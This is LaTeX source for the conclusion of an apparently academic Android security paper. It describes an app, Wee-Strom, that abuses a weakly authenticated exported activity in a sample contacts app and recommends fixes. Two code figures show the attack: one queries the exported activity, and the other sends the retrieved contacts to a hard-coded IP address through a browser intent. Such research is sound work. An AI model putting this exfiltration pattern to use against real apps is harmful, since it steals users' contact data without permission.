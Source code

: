 \documentclass[conference,compsoc]{IEEEtran}
\begin{document}
\section{Conclusion}
Poorly written apps represent a significant threat to the Android ecosystem. No matter how well Android is secured, it cannot be easily protected from apps like SuperAwesomeContacts. Wee-Strom demonstrated an attack on SAC that did not violate any explicit rules in android, or raise any alerts. It could trivially be made almost invisible to the user. Wee-Strom successfully bypasses SAC's weak authentication in an improperly exported method, and exfiltrates stolen contacts data to a web server without using any permissions. It is also apparent that these vulnerabilities can be found in apps using common reverse engineering tools even if the programs were compiled with obfuscation programs like ProGuard. These loopholes can be closed by writing and validating good code\cite{Martin:2008:CCH:1388398, Google:LaunchChecklist}, and eliminating the transitive property of Android permissions that allows browsers to act as unwitting data sinks.

\begin{figure}
  \begin{lstlisting}
Intent i = new Intent();
i.setComponent(new ComponentName("edu.cmu.wnss.funktastic.superawesomecontacts", "edu.cmu.wnss.funktastic.superawesomecontacts.FindActivity"));
i.setType("edu.cmu.wnss.funktastic.superawesomecontacts.findcontact.intent.type");
i.putExtra("edu.cmu.wnss.funktastic.superawesomecontacts.findcontact.findQueryString", " ");
startActivityForResult(i, 1);
\end{lstlisting}
\caption{Wee-Strom onCreate Method}
\label{fig:StromOnCreate}
\end{figure}

\begin{figure}
  \begin{lstlisting}
  @Override
  public void onActivityResult(int reqCode, int resCode, Intent data) {
      if (resCode == Activity.RESULT_OK) {
          String results = data.getStringExtra("edu.cmu.wnss.funktastic.superawesomecontacts.findcontact.queryResults");
          textView.setText(results);
          try {
              startActivity(new Intent(Intent.ACTION_VIEW, Uri.parse("http://104.131.190.124/index.html?contacts=" + URLEncoder.encode(results, "UTF-8"))));
          } catch (UnsupportedEncodingException e) { 
              e.printStackTrace();
          }
      } else {
          textView.setText("Oops!");
      }
  }
  \end{lstlisting}
  \caption{Wee-Strom onActivityResult Method}
  \label{fig:StromOnResult}
\end{figure}
\end{document}
